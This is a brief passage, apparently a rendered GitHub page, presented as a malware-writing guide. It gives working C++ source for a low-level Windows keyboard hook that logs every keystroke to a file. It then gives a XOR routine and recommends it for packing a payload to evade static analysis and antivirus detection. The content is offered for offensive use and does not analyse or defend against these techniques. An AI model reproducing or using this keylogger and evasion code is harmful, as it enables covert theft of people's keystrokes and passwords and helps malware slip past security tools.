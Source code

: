 # Hooking APIs
Hooking is a technique where you intercept calls to specific APIs and either modify their behavior or monitor them for malicious activities. This can be used for keylogging, network traffic monitoring, or to evade detection by AV solutions.

#### Keylogging via API Hooking Example (Outline)
A typical method for keylogging is to hook the `GetAsyncKeyState` or `GetKeyState` function in user-mode, or even lower-level functions using `SetWindowsHookEx`.

```cpp
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION && (wParam == WM_KEYDOWN || wParam == WM_SYSKEYDOWN)) {
        KBDLLHOOKSTRUCT* p = (KBDLLHOOKSTRUCT*)lParam;
        DWORD vkCode = p->vkCode; // Virtual key code of the key pressed

        // Log the key
        std::ofstream logFile("keylog.txt", std::ios::app);
        logFile << char(vkCode);
        logFile.close();
    }
    return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int main() {
    // Install the hook
    HHOOK hHook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);

    // Enter a message loop to keep the hook alive
    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

    return 0;
}
```

# Packing & Encryption
Packing and encryption are used to hide malicious code from static analysis and signature-based detection. The malware is encrypted or packed using a runtime packer, and then decrypted at runtime.

#### Simple XOR Encryption Example
```cpp
void xorEncryptDecrypt

(char* data, size_t dataSize, const char* key, size_t keySize) {
    for (size_t i = 0; i < dataSize; ++i) {
        data[i] ^= key[i % keySize]; // XOR with the key
    }
}
```
Packing your payload with a custom encryption routine like this helps evade static analysis.
